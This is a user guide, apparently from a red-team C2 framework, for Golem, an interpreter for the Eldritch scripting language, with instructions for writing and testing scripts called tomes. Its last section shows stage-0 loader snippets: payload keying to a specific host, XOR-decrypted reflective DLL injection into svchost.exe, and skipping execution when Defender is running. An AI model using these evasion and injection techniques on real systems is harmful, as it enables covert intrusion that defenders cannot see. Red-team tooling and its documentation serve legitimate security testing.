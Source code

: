 ```yaml
---
title: Golem
tags:
 - User Guide
description: Golem User Guide
permalink: user-guide/golem
---
```

## What is Golem

Golem is the standalone interpreter for Eldritch.
This program exists to help users get experience with the Eldritch language as well as a jumping off point if you're interested in implementing your own program using the Eldritch language.

Golem can also be used operationally as an alternative to a system native shell.
You can leverage the power of Eldritch with minimal exposure in the system process tree.

## Try it out

```bash
git clone git@github.com:spellshift/realm.git
cd realm/implants/golem
cargo run -- -i
# - or -
cargo build --release && \
    ../target/debug/golem ../../tests/golem_cli_test/tomes/hello_world.tome
```

## Creating and testing tomes

Golem is a great way to create and test tomes without deploying the entire Realm project.
Golem operates in three different modes:

- Interactive `-i`
- With embedded tomes _no args_
- On a specific tome `/path/to/tome/eldritch.main`

In this guide we'll leverage the last one.

### Tome structure

Copy an existing tome and rename it to your desired name.

```bash
[~/realm]$ cd tavern/tomes/
[./tomes]$ cp -r ./file_list ./new_tome
```

This will setup the boiler plate.
A tome file structure should look like this:

```
./new_tome/
├── files
│   └── test-file
├── main.eldritch
└── metadata.yml
```

_If you have no files associated with your tome you can ommit the `files` dir_

- main.eldritch - Defines our actual eldritch functionality and what will be executed on the agent.
- metadata.yaml - Defines information that tavern will use to prepare your tome including prompting users for input.

### Tome Metadata

Your tome Metadata should look like this:

```yaml
name: List files # The name of your tome.
description: List the files and directories found at the path # A description to help users understand what your tome does.
author: hulto # Your Github username.
support_model: FIRST_PARTY # Is this a tome that ships with Realm or not?
tactic: RECON # What stage of the MITRE ATT&CK chain does this tome fall into?
paramdefs: # A list of inputs the tome requires.
- name: path # The name of the input parameter `input_params['path']`.
  type: string # The type of the input parameter.
  label: File path # A Label that will be displayed in the UI to help users understand the purpose.
  placeholder: "/etc/" # A placeholder to give users an idea of how their input should be formatted.
```

### Building your eldritch script

Eldritch while it looks like python is distinct and many features in python do not exist in Eldritch.

For an almost complete list of syntax checkout the starlark (DSL which eldritch is based on) docs <https://bazel.build/rules/language>
*Note: The docs may be incorrect in some places as we're using the starlark-rust implementation which doesn't always adhere to the starlark spec.*

```python
# Define our function for the tome and any inputs
def file_list(path):
    # make sure you proactively check the state of the system.
    # Users may pass bad data in or the system may be in an
    # unexpected state so always check if something is a dir
    # before treatingi it like one.
    if file.is_dir(path):
        files = file.list(path)
        for f in files:
            type_str = ""
            if f['type'] == "Directory":
                type_str = "Dir"
            if f['type'] == "Link":
                type_str = "Link"
            if f['type'] == "File":
                type_str = "File"
            # Formatting - By default eldritch will print data as a JSON Dictionary which is easy for scripts to read but
            # not great for humans to make your tome more usable make sure you print data in a readable way.
            print(f['permissions']+"\t"+f['owner']+"\t"+f['group']+"\t"+str(f['size'])+"\t"+f['modified']+"\t"+type_str+"\t"+f['file_name']+"\n")
    else:
        print("Error: Invalid Path ("+path+")\n")

# Call our tomes function.
file_list(input_params['path'])
# `input_params` is a dictionary that's implicitly passed into the eldritch runtime.
# The key value pairs in input_params is defined by the users answers to the paramdefs in the UI.
# For example if you specify `name: path` in your `metadata.yml` file the UI will ask the user for
# a path and then populate the `path` key in `input_params` when the tome runs.
# Input params is unique to each task so setting a var in one task won't affect others.
print("\n")
print("\n")
```

### Design ideology

Tomes are designed to accomplish specific workflows.
Some small tomes have been created to accomplish basic sysadmin tasks like reading, writing files, checking processes etc.
Ideally though if you have a specific workflow you'll define it as a tome.
We want to avoid queueing multiple quests to accomplish a workflow.

### Testing your tome

Now that your tome is created let's test it locally.

```bash
[~]$ cd realm/implants/golem
[./golem]$ cargo run -- ~/realm/tavern/tomes/new_tome/main.eldritch
# ...
# Tome output
# ...
```

_If you have input_params that you need to define for your tome manually set them for your test by adding a line like this:_

```python
input_params['path'] = "/tmp/"
file_list(input_params['path'])
```

## Golem embedded files

The Eldritch interpreter can embed files at compile time. To interact with these assets use the `assets` module in eldritch. In addition to programmatic access the embedded files can be automatically executed at run time. If no other option is specified `-i` or a file path, golem will iterate over every instance of `main.eldritch` in the embedded assets launching each one as a separate thread. This behavior is desirable when trying to perform recon or deploy persistence quickly.

## Golem as a stage 0

Golem can also be used as a stage 0 to load imix or other c2 agents.
This can help in a few ways such as:

- Keying payloads to specific hosts

```python
def main():
    if is_linux():
        if is_dir("/home/hulto/"):
            run_payload()
main()
```

- Executing encrypted payloads from memory

```python
def decrypt(payload_bytes):
    let res = []
    for byte in in payload_bytes:
        res.push(byte ^ 6)
    return res

def main():
    if is_windows():
        for proc in process.list():
            if "svchost.exe" in proc['name']:
                let enc_bytes = assets.read_bytes("imix.dll")
                sys.dll_reflect(decrypt(enc_bytes), proc['pid'], 'imix_main')
                return

main()
```

- Detecting security products before execution

```python
def main():
    for proc in process.list():
        if "MsMpEng.exe" in proc['name']:
            return
    run_payload()
main()
```
